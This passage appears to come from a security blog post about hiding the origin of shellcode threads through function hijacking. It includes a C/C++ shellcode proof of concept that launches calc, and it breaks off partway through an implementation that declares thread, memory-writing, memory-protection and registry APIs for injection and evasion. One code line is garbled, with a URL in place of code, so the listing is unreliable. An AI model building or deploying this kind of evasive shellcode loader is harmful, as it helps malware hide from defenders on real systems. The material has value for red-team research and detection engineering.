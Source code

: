```
patch(https://twitter.com/_rastamouse) = 0xE7;
```

This trick, in practice, mask the thread source when the shellcode is later executed as a thread,
as it can be observed below:

![Thread-FunctionHijack](./imgs/blog/005Hijacking/fun-jack-thread-started-in-legit-module.png)

###### Shellcode 3 - Main Logic

The main logic of our shellcode should be where we actually execute the code we want, we download and
execute, or... whatever. As this is just a PoC and I like the calculator, the logic would be as simple
as:

```
CHAR WinExecCommand[] = { 'c', 'm', 'd', ' ', '/', 'c', ' ', 'c', 'a', 'l', 'c', '\0' };
WinExecFunc((LPCSTR)WinExecCommand, 0);
```

If you want to check the full implementation, check below:



```cpp
#include <stdio.h>
#include "addresshunter.h"

#define USE_REGISTRY_FOR_DLL
#define NO_LIB_RELOAD
#define SHORT_SLEEP 2000
#define LONG_SLEEP 15000

typedef HANDLE(WINAPI* OpenThreadType)(DWORD dwDesiredAccess, BOOL  bInheritHandle, DWORD dwThreadId);
typedef DWORD(WINAPI* ResumeThreadType)(HANDLE hThread);
#ifdef WPM
typedef BOOL(WINAPI* WriteProcessMemoryType)(HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T* lpNumberOfBytesWritten);
#endif
typedef LSTATUS(WINAPI* RegOpenKeyType)(HKEY hKey, LPCWSTR lpSubKey, PHKEY phkResult);
typedef LSTATUS(WINAPI* RegDeleteKeyType)(HKEY hKey, LPCWSTR lpSubKey);
typedef LSTATUS(WINAPI* RegGetValueType)(HKEY hkey, LPCWSTR lpSubKey, LPCTSTR lpValue, DWORD dwFlags, LPDWORD pdwType, PVOID pvData, LPDWORD pcbData);
typedef LSTATUS(WINAPI* RegCloseKeyType)(HKEY hKey);
typedef BOOL(WINAPI* VirtualProtectType)(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
typedef BOOL(WINAPI* FreeLibraryType)(HMODULE hModule);
typedef DWORD(WINAPI* WaitForSingleObjectType)(HANDLE hHandle, DWORD dwMilliseconds);

typedef HANDLE(WINAPI* OpenMutexType)(DWORD dwDesiredAccess, BOOL bInheritHandle, LPCWSTR lpName);
typedef BOOL(WINAPI* CloseHandleType)(HANDLE hObject);

typedef void* (WINAPIV* mallocType)(size_t size);
typedef void* (WINAPIV* memsetType)(void* dest, int c, size_t count);
typedef void* (WINAPIV* memcpyType)(void* dest, const void* src, size_t count);
typedef void (WINAPIV* freeType)(void* memblock);
#ifdef _DEBUG
```
